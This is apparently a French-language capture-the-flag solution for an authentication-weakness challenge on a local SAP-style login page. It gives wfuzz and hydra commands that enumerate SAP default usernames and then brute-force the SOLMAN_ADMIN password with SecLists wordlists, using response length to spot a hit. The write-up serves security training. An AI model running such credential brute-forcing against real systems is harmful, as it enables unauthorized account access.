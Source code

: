 # Solution
## A07 - Identification et authentification de mauvaise qualité

Nous pouvons voir que nous avons SAP Connexion, c'est donc une connexion pour un serveur SAP. Nous avons une liste des utilisateurs par défaut ici : https://github.com/danielmiessler/SecLists/blob/master/Usernames/sap-default-usernames.txt
Nous pouvons donc lancer des attaques par force brute sur ces utilisateurs. Nous pouvons utiliser hydra ou des outils de fuzzing pour cela :
```bash
wfuzz -z file,/usr/share/wordlists/seclists/Usernames/sap-default-usernames.txt -d "username=FUZZ&password=test" http://localhost:8042/login.php
```

Avec hydra :
```bash
hydra -L /usr/share/wordlists/seclists/Usernames/sap-default-usernames.txt -p test -s 8042 localhost http-post-form "/login.php:username=^USER^&password=^PASS^:Nom d'utilisateur incorrect"
```
Nous pouvons voir que nous avons trouvé un utilisateur via ce fuzzing. Nous pouvons donc lancer une attaque par force brute sur les mots de passe.

Pour les mots de passe nous pouvons utiliser tout d'abord le fichier 10-million-password-list-top-100.txt dans SecLists. Nous pouvons aussi utiliser rockyou.txt.

Nous avons :
```bash
wfuzz -z file,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt -d "username=<USER>&password=FUZZ" http://localhost:8042/login.php
```

et avec hydra :
```bash
hydra -l SOLMAN_ADMIN -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt -s 8042 localhost http-post-form "/login.php:username=^USER^&password=^PASS^:Mot de passe incorrect"
```

Nous obtenons le flag en trouvant le bon utilisateur et le bon mot de passe, ici il faut regarder le nombre de caractères que la page nous renvoie pour savoir si le mot de passe est bon ou non.